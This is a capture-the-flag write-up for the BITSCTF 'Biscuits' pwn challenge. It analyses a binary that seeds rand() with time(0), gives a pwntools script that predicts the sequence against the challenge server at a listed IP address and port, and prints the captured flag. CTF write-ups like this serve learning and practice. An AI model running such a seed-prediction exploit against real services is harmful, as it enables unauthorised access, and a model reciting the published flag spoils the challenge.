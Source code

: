 https://ctftime.org/event/2607

# Biscuits (pwn)

Momma, can I have cookie..?

No....

nc 20.244.40.210 6000

## Analysis

```bash
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      PIE enabled
```

`main` @ `0x2349`:
  - Calls `srand(time(0))`
  - Loops 100 times:
    - Uses `rand() % 100` to index an array of `char**`
    - Checks that the user supplied bytes `strcmp` equal the string pointed at the by the pointer at the index
      - If they don't match then call `exit`
  - Prints the flag

## Solution

1) Get a copy of the string table that the remote uses
2) Seed `srand` using the same time as on the remote
    - Note that `time(0)` returns the current time in seconds so it is quite possible to get the same value as the remote
3) In a loop - generate the same string table index that the remote generates and then provide the string found at the index
    - Note that we can provide more bytes, as shown in the poc, as long as we provide the `\x00` byte along with the extra bytes the `strcmp` will work - this just saves us having to worry about the length of the strings

```python
#!/usr/bin/env python3

from pwn import *
import ctypes
import struct

#context.log_level = "debug"
elf = ELF("./main", checksec=False)
context.binary = elf

cookies = elf.read(elf.sym["cookies"], 0x500)

# sha256: e7a914a33fd4f6d25057b8d48c7c5f3d55ab870ec4ee27693d6c5f3a532e6226 
libc = ctypes.CDLL("/lib/x86_64-linux-gnu/libc.so.6")

#p = elf.process()
#p = elf.debug(gdbscript="")
p = remote("20.244.40.210", 6000)

now = libc.time(0)
libc.srand(now)

for i in range(100):
    idx = libc.rand() % 100
    cookie = struct.unpack("<Q", cookies[idx * 8: (idx * 8) + 8])[0]
    p.sendlineafter(b"Guess the cookie: ", elf.read(cookie, 64))

p.readuntil(b"Flag: ")

# BITSCTF{7h4nk5_f0r_4ll_0f_th3_c00ki3s_1_r34lly_enjoy3d_th3m_d31fa51e}
print(p.readuntil(b"}").decode())
```

## Flag
`BITSCTF{7h4nk5_f0r_4ll_0f_th3_c00ki3s_1_r34lly_enjoy3d_th3m_d31fa51e}`

smiley 2025/02/07
